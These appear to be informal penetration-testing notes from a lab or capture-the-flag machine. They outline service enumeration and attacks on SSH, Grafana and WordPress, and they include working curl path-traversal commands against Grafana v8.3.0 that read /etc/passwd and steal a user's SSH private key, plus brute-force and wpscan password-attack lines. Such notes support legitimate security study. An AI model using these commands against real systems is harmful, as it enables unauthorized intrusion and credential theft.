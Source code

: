            8080 Apache httpd 2.4.57 
            function: phpmyadmin 
                - version 
            - whatservice?



    - if you couldn't find out the version, you do manually connect with nc or telnet and get 

    - scripts : e.g. ssh-auth, /usr/share/nmap/scripts/http* 
        - also you can download custom scripts 
    - known vulns  > searchsploit or google (github analysis) 




enum and exploit specific services
1. SSH
    1. brute forcing? SSH?
    2. easy creds root:root ? 


2. http
#### ppp 3000 
1. what function do you? ctrl+U : webapplication info\
- I think it does : 
    - dashboard monitoring solution for applications(DB, Azure, SIEM) with bar chart ,etcc.
    - version : Grafana v8.3.0 
    - default creds : admin:admin 
    - known vulns : Directory travarsal and file read.(unauthorized) > ssh key or creds or conf file or php source code, etc. 
        - it works > /etc/passwd file read possible
            - miller > userlist.txt
            - curl --path-as-is http://172.31.179.77:3000/public/plugins/alertlist/../../../../../../../../etc/passwd
            - /etc/group , /etc/os-release, OK > public key path guess possible (ubuntu default main directory referenced)
            - curl --path-as-is http://172.31.179.77:3000/public/plugins/alertlist/../../../../../../../../home/miller/.ssh/id_rsa > id_rsa 
                - ssh miller get > now what we need to do is post-exploitation= enum(manual/auto) and privilege escalation 

2. wappayler 
3. robots.txt 
4. dir bruteforcing - go buster
    - 
        - interesting 
    - file extension -x 
5. OWASP common vulns
        -LFI
        - auto  

#### 8000 - toorg dev
1. function : internal dev page, board system? write post? 
    - WordPress 6.3.1
        - wpscan, wordpress related know vulns and assessment manually 
        wpscan --url http://172.31.179.77:8000 --passwords pass.txt
            - Xmlrpc ? success when did you apply 
